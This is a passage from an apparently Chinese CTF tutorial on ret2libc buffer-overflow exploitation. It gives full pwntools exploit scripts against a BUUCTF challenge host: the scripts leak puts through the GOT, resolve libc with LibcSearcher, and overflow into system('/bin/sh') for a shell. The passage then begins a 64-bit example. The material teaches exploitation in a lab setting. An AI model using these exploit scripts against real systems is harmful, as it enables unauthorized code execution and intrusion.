 ```python
payload3='a'*0xe7+'a'*4+p32(system)+p32(exit)+p32(binsh)#第二段溢出
p.sendline(payload3)
p.interactive()
```

如果没有给出libc动态链接库的话，也可以使用**LibcSearcher**工具进行搜索。

exp：

```python
from pwn import*
from LibcSearcher import* #加载LibcSearcher工具

p=remote('node4.buuoj.cn',28327)
elf=ELF('./pwn')
main_addr=0x8048825
exit=0x8048558
put_plt=elf.plt['puts']
put_got=elf.got['puts']
payload1='\x00' +'a'*6+'\xff'
p.sendline(payload1)
p.recvuntil('Correct\n')
payload2='a'*0xe7+'a'*4+p32(put_plt)+p32(main_addr)+p32(put_got)
p.sendline(payload2)
put_addr = u32(p.recv(4))

libc=LibcSearcher('puts',put_addr) #利用LibcSearcher查找libc版本
offset=put_addr-libc.dump('puts') #计算偏移，libc.dump("puts")表示puts在libc里面的偏移
binsh=offset+libc.dump('str_bin_sh')
system=offset+libc.dump('system')

p.sendline(payload1)
p.recvuntil('Correct\n')
payload3='a'*0xe7+'a'*4+p32(system)+p32(exit)+p32(binsh)
p.sendline(payload3)
p.interactive()
```

执行exp，获得flag：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret4.png?x-oss-process=style/watermark" style="zoom:80%;" />

## 2.3 64位 ret2libc

64位 ret2libc 溢出和32位大致相同，要注意构造的溢出流程，要先通过pop_rdi将参数传递给rdi寄存器，再执行函数，溢出图如下。

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret6.png?x-oss-process=style/watermark" style="zoom:80%;" />

例题：https://buuoj.cn/challenges#bjdctf_2020_babyrop ，题目名字：bjdctf_2020_babyrop

反汇编发现 vuln 函数中的 read 函数可以溢出：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret7.png?x-oss-process=style/watermark" style="zoom:80%;" />
